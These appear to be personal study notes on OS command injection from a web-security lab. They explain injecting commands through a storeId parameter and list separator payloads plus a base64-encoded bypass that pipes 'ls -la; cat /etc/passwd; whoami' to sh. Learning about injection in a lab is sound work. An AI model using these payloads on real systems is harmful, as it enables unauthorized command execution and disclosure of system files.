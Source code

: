 # OS command injection

OS command injection

stockTD=1 ; whoami or base64 encode
use case something tht after u press display out like check stock return--> number

Purpose of command	Linux	Windows
Name of current user	whoami	whoami
Operating system	uname -a	ver
Network configuration	ifconfig	ipconfig /all
Network connections	netstat -an	netstat -an
Running processes	ps -ef	tasklist

Why 1 | whoami works:
The application is likely executing a command like: stock_checker 7 1

When you inject 1 | whoami, the command becomes: stock_checker 7 1 | whoami

This pipes the output of the stock checker to the whoami command

Since 1 is a valid store ID, the first command succeeds and pipes to your injected command

Why whoami alone doesn't work:
The command becomes: stock_checker 7 whoami

The application expects a numeric store ID, so whoami is treated as an invalid store ID

The stock checker likely fails before any command injection can occur

```text
storeId=1 | whoami
storeId=1 ; whoami
storeId=1 && whoami
storeId=1 || whoami
```

bypass with base64

```bash
# Encode multiple commands
echo -n 'ls -la; cat /etc/passwd; whoami' | base64
# Returns: bHMgLWxhOyBjYXQgL2V0Yy9wYXNzd2Q7IHdob2FtaQo=
```

```bash
# Use in injection
productId=7&storeId=1|echo bHMgLWxhOyBjYXQgL2V0Yy9wYXNzd2Q7IHdob2FtaQo=|base64 -d|sh
```
